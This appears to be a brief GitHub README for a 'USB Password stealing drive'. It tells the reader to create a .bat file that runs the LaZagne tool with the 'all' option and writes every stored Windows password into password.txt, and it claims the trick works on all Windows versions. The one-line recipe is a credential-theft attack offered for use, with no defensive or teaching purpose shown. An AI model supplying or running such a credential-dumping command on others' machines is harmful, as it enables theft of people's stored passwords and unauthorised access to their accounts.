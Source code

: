 # USB-Password-stealing-driver
USB Password stealing drive
make a bat file and write ( laZagne.exe all > password.txt )
you will find all stored passwords in this file  
 works with all windows :)
